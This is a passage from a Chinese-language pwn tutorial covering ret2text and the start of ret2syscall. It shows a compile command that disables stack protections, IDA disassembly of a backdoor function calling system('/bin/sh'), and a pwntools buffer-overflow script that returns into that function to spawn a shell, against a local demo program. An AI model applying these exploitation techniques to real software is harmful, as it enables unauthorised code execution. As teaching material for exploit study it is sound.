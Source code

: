 ```plain
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

编译后调试或者用 ida 反编译工具查看其后门函数地址即可

例如此处在 ida 中观察到其地址为 0x4011c5

```plain
.text:00000000004011BD                               ; __unwind {
.text:00000000004011BD F3 0F 1E FA                   endbr64
.text:00000000004011C1 55                            push    rbp
.text:00000000004011C2 48 89 E5                      mov     rbp, rsp
.text:00000000004011C5 48 8D 3D 38 0E 00 00          lea     rdi, command                    ; "/bin/sh"
.text:00000000004011CC E8 9F FE FF FF                call    _system
.text:00000000004011CC
```

那么接下来用上面的 payload 构造模版即可

通过运行程序输入或者通过脚本输入即可运行后门函数中的 shell

脚本

```plain
from pwn import*

io = process('./text')
payload = b'a'*(0x10+8)+p64(0x4011c5)
io.sendline(payload)
io.interactive()
```

## 2.ret2syscall

ret2syscall 和 ret2text 的攻击方式基本相同，通过在程序中寻找系统调用函数 syscall 代码等来构造出一个后门危险函数

### syscall：系统调用

常见的系统调用汇编码和系统调用号

[系统调用号\_linux 64 位系统调用号-CSDN 博客](https://blog.csdn.net/winter2121/article/details/119845443)

```plain
int 0x80;//32 位
syscall;//64 位
```

系统调用的基本过程

系统调用过程涉及以下几个步骤：[系统调用过程](https://answer.baidu.com/answer/land?params=ttTnGaZyd4Feyh2LbMnEJHHHkBIbIQ6ui5V5RcLcWpsy9Rj5ZPs2cK3txnUftxLnSQRYt9AD9%2BR%2ByYwmcnGZ6yYLYCV7VlV1yxpoxgImiBR013eYvDD%2FPvmFCa6DflJCaFH%2BsH3FBmAXF3VLggh9zs82B7a0LCTDs2MWotlrsfqhp6GdAaVkmxaK6XQgDGLt&from=dqa&lid=9b658aae005805ec&word=%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E8%BF%87%E7%A8%8B)

1.  用户程序发出系统调用请求：用户程序通过编程语言提供的系统调用接口（如 C 语言中的库函数）发出系统调用请求，请求操作系统执行某种特定的操作。
2.  权限检查：操作系统接收到用户程序的请求后，会进行权限检查，以确保用户程序有权限执行该系统调用。
3.  切换到内核态：如果权限检查通过，操作系统会将用户程序的上下文切换到内核模式，以便执行操作系统提供的服务。
4.  参数传递和准备工作：在内核态中，操作系统会获取用户程序提供的系统调用参数，并做好相应的准备工作，例如分配内存空间
5.  执行系统调用：操作系统执行用户程序请求的系统调用功能，这可能包括打开或关闭文件、创建或终止进程、进行内存管理等各种操作。
6.  返回结果和错误处理：系统调用执行完毕后，操作系统会将执行结果返回给用户程序，并进行相应的错误处理，例如返回错误码或打印错误信息等。
7.  切换回用户态：操作系统完成系统调用操作后，将会切换回用户态，继续执行用户程序的下一条指令。
